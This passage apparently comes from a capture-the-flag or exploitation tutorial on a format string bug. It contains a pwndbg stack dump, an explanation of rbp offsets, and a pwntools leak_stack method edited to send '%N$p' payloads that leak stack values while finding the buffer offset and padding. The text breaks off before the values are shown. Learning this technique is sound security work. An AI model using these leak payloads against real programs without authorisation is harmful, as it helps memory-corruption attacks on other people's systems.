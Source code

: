 You may wonder why subtracting 0x50 from rbp. As you can see rbp address points rbp_address+0x50 inside of it. This arranged by the executable. If you check a few instruction below from func prologue routine, the addition happens via rax. 

```css
pwndbg> tele $rsp+0x400 32
00:0000│-080 0x7ffc5889a010 ◂— 0
... ↓        11 skipped
0c:0060│-020 0x7ffc5889a070 —▸ 0x55e0ed271970 (__libc_csu_init) ◂— endbr64 
0d:0068│-018 0x7ffc5889a078 ◂— 0xd3440f1a4a413500
0e:0070│-010 0x7ffc5889a080 —▸ 0x7ffc5889a0e0 ◂— 0
0f:0078│-008 0x7ffc5889a088 —▸ 0x55e0ed271970 (__libc_csu_init) ◂— endbr64 
10:0080│ rbp 0x7ffc5889a090 —▸ 0x7ffc5889a0e0 ◂— 0
11:0088│+008 0x7ffc5889a098 —▸ 0x55e0ed27195a (main+406) ◂— lea rdi, [rip + 0xe39]
12:0090│+010 0x7ffc5889a0a0 ◂— 2
13:0098│+018 0x7ffc5889a0a8 —▸ 0x7ffc5889a1e8 —▸ 0x7ffc5889b710 ◂— 0
14:00a0│+020 0x7ffc5889a0b0 —▸ 0x7ffc5889a1d8 —▸ 0x7ffc5889b6ee ◂— 0
15:00a8│+028 0x7ffc5889a0b8 ◂— 0x1ed271970
16:00b0│+030 0x7ffc5889a0c0 ◂— 0
17:00b8│+038 0x7ffc5889a0c8 ◂— 0x2710ed271220
18:00c0│+040 0x7ffc5889a0d0 —▸ 0x7ffc5889a1e0 ◂— 0
19:00c8│+048 0x7ffc5889a0d8 —▸ 0x7ffc5889a270 ◂— 0
1a:00d0│+050 0x7ffc5889a0e0 ◂— 0
1b:00d8│+058 0x7ffc5889a0e8 —▸ 0x7f2dc325d083 (__libc_start_main+243) ◂— mov edi, eax
1c:00e0│+060 0x7ffc5889a0f0 —▸ 0x7f2dc3462620 (_rtld_global_ro) ◂— 0x6100100000000
1d:00e8│+068 0x7ffc5889a0f8 —▸ 0x7ffc5889a1d8 —▸ 0x7ffc5889b6ee ◂— 0
1e:00f0│+070 0x7ffc5889a100 ◂— 0x100000000
1f:00f8│+078 0x7ffc5889a108 —▸ 0x55e0ed2717c4 (main) ◂— endbr64 
```

### find offset and padlen

So far so good, now before choosing the target address, find out the **user_buffer** start offset and needed **padlen** values.

Again i edited search string **FmtStr.leak_stack** method in `/usr/local/lib/python3.12/dist-packages/pwnlib/fmtstr.py` .

The method after edited looks like this. The only difference **END** to **ENT**. This is necessary because **END** string is affect behaviour of binary working routine.

```python
def leak_stack(self, offset, prefix=b""):
        payload = b"START%%%d$pENT" % offset
        leak = self.execute_fmt(prefix + payload)
        try:
            leak = re.findall(br"START(.*?)ENT", leak, re.MULTILINE | re.DOTALL)[0]
            leak = int(leak, 16)
        except ValueError:
            leak = 0
        return leak
```

The needed values found as below.
